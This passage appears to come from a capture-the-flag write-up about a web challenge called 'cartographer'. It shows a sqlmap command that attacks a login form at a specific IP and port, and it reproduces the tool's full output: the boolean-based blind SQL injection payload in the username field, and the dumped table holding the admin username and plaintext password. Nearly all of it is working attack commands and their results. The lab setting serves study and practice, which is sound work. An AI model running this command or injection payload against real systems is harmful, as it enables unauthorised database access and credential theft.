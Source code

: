 ### SQLMAP - DATABASE MINING
Now let's dump the `cartographer` database to see what we have..

```
$ sqlmap -u http://88.198.233.174:35067 --method POST --data="username=blah&password=blah" -D cartographer --dump all --batch
```

```
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.1.11#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 15:23:42

[15:23:42] [INFO] resuming back-end DBMS 'mysql' 
[15:23:42] [INFO] testing connection to the target URL
[15:23:42] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS/IDS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-8955' OR 2657=2657#&password=blah
---
[15:23:42] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL unknown
[15:23:42] [INFO] fetching tables for database: 'cartographer'
[15:23:42] [INFO] fetching number of tables for database 'cartographer'
[15:23:43] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[15:23:43] [INFO] retrieved: 
sqlmap got a 302 redirect to 'http://88.198.233.174:35067/panel.php?info=home'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[15:23:44] [INFO] retrieved: users
[15:23:53] [INFO] fetching columns for table 'users' in database 'cartographer'
[15:23:53] [INFO] retrieved: 2
[15:23:55] [INFO] retrieved: username
[15:24:13] [INFO] retrieved: password
[15:24:30] [INFO] fetching entries for table 'users' in database 'cartographer'
[15:24:30] [INFO] fetching number of entries for table 'users' in database 'cartographer'
[15:24:30] [INFO] retrieved: 1
[15:24:31] [INFO] retrieved: mypasswordisfuckinawesome123
[15:25:21] [INFO] retrieved: admin
Database: cartographer
Table: users
[1 entry]
+----------+------------------------------+
| username | password                     |
+----------+------------------------------+
| admin    | mypasswordisfuckinawesome123 |
+----------+------------------------------+
```